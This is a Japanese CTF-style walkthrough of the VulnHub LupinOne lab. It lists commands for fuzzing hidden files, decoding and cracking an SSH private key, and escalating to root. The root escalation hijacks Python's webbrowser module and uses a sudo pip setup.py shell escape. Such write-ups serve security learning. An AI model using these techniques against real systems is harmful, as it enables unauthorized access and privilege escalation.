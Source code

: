 ## LupinOne

### ポートスキャンまで同じ
- 22,80

### robots.txtを見る
- `curl http://$IP/robots.txt` 
- ヒントは`/~myfiles`で、ディレクトリの初めに~がついていることがわかる
- ~myfilesを見ても`404 error`になる  

### 隠しディレクトリを探す
- `wfuzz -c -z file,/home/user/vulnhub/SecLists-master/Discovery/Web-Content/raft-large-directories.txt  "http://$IP/~FUZZ/"`
  - `-c`でカラー表示
  - `-z file,`は辞書の指定だが、わかりにくいので`-w`でいい
  - 初めは`--h?`をつけずに実行して関係なさそうなのを探す。ここでは404のステータスコードを返しているので`--hc 404`をつける
-　これでもいける
  - `wfuzz -c -w /usr/share/wordlists/rockyou.txt -u http://$IP/~FUZZ/ --hc 404`
- 見つかったファイルは`secret` `myfiles`、時間が長いので2つ見つけたら止める
- `wfuzz -c -z file,/home/user/vulnhub/SecLists-master/Discovery/Web-Content/raft-large-directories.txt  --hc 404 "http://$IP/~FUZZ/"`
  - helpを見て`--h?`を他に行や単語数、文字数でもやってみる 

### サイトを見る
- 見つけたリンクでサイトを翻訳して確認する。分かったことがある
  - このディレクトリに秘密鍵があること
  - 秘密鍵はfasttrackで解析する
  - ユーザ名はicex64であること
 
### fasttrackとは
- 移動してみる/usr/share/wordlists/fasttrackにある辞書
- `less fasttrack.txt`中身を見るとパスワードファイルらしい
- `wc fasttrack.txt`数が少ない


### さらに隠しファイルを探すが、その前に辞書を整理する
- wfuzzの特性上`#`も200(成功)に反応するので、`#`を辞書から削除する
  - `#`はフラグメント識別子と言って、サイト内の特定の場所に移動できる  
- `grep -v '^\s*#' /usr/share/wordlists/rockyou.txt > ./custom_rockyou.txt`
  - `-v`は`'^\s*#'`以外の正規表現を抜き出す
  -  `^#`は単語の最初が#であるのを抽出
  - `\s`はスペースのことで`\s*`はスペースが０以上あるものを抽出 

### 隠しファイルを探す
- 本来は辞書のファイルを使うが、ここで欲しいのは秘密鍵のファイルで拡張子が`.txt`なので、上で作った、パスワードファイルのrockyou.txtを使う
- また隠れファイルなので頭に`.`をつける。正直、これだけのヒントでFUZZの頭にドットをつけるのに気づくのは難しいと思う
- `wfuzz -c -z file,./custom_rockyou.txt --hc 400,404 "http://$IP/~secret/.FUZZ.txt"`
  - `--hc`statusの400,404は表示させない 

### textのダウンロード
- `curl http://$IP/~secret/.mysecret.txt > .mysecret2.txt`
- または
- `curl -OL http://$IP/~secret/.mysecret.txt`
  - `-L`リダイレクト,`-O`標準出力せずにダウンロードする 
- コピーする

### ファイルを分析
- ファイルを見た感じでは秘密鍵でなく、何かしらの暗号化されているのはわかるので調べる
- `cat .mysecret2.txt | grep -o . | sort | uniq | wc`
- 58なのでBase58

### CyberChefでdecode
- CyberChefでInputでコピーをペーストする
- 一番左のsearchに`from base`と入力する。
- 青色の背景になるのでFrom base32~From base92まで順に上からドロップ&ドラッグでRecipeに置いておくとOutputに文字化けしないのを試していく。文字化けしたらゴミ箱があるのでゴミ箱を押して消して次のOperationに進んでいく
- Base58でデコード(復号)する。そして、コピーする
- `cat > key`で貼り付ける。注意するのは、ペーストしたら改行してから、`ctrl + c`で抜ける
### 秘密鍵のPermissionを変更する
- `chmod 700 key`
- `chmod 777 key`にするとsshが繋がらない。これは秘密鍵は本来、所有者しか使うことができなので当然なので、それに合わせている

### パスフレーズの解析
- (1) コマンドを使う。とても簡単これだけでもいい
  - `ssh2john key > pass.txt` 
- 暗号解析
  - `sudo john pass.txt -wordlist=/usr/share/wordlists/fasttrack.txt`
  - パスフレーズが取得できる
  - `P@55w0rd!` 

### sshでアクセス
- `ssh -i key icex64@$IP`
  - パスフレーズの入力 

### システム内の調査
- `sudo -l`
  - `(arsene) NOPASSWD: /usr/bin/python3.9 /home/arsene/heist.py`
- icex64はパスワードなしでarseneとして/home/arsene/heist.pyファイルが実行できることがわかる。つまり実行することで、arseneになることができる
- heist.pyの中身を見る、これが何をしているか？
- Permissionから何がわかる？
- 本来なら、このpyファイルに書き込みたいが、できないのでwebbrowser関数の中に書き込む

### 攻撃アプローチ
- webbrowserがどこにあるか調べる
  - `locate webbrowser`
  - または
  - `find / -name '*webbrowser*' -type f -writable 2>/dev/null`
- webbrowserファイルを開く
  -  `nano /usr/lib/python3.9/webbrowser.py`
  -  import osの下に`os.system("/bin/bash")`を書き込む


### 別ユーザで権限取得
- `sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py`
  - `-u`sudoをユーザを指定して実行する 
- arseneが使えるルートコマンドを調べる
  - `sudo -l` 
- pipコマンドが使える。GTFOBinsのSudoの部分を参考にする。pipはPythonのモジュールをインストールできるコマンド。なので、架空のモジュールを作ってpipを利用する
- 一時的なディレクトリを作って、そこにルートコマンドになれるpythonのセットファイルを作る。変数の設定時にはスペースを空けてはダメ
  - `cd /tmp`
  - `TF=$(mktemp -d)`
  - `echo $TF`
  - `echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh < $(tty) > $(tty) 2> $(tty)')" > $TF/setup.py`
    - os.execl('/bin ~ $(tty)') これをシングルクォーテーションひとつで書くとエラーになる。なぜかはわからん 
  - `ls $TF`
  - `sudo pip install $TF`

### ルートフラグの取得
- ルートシェルを奪取できた
- `cd /root`
- `cat root.txt`





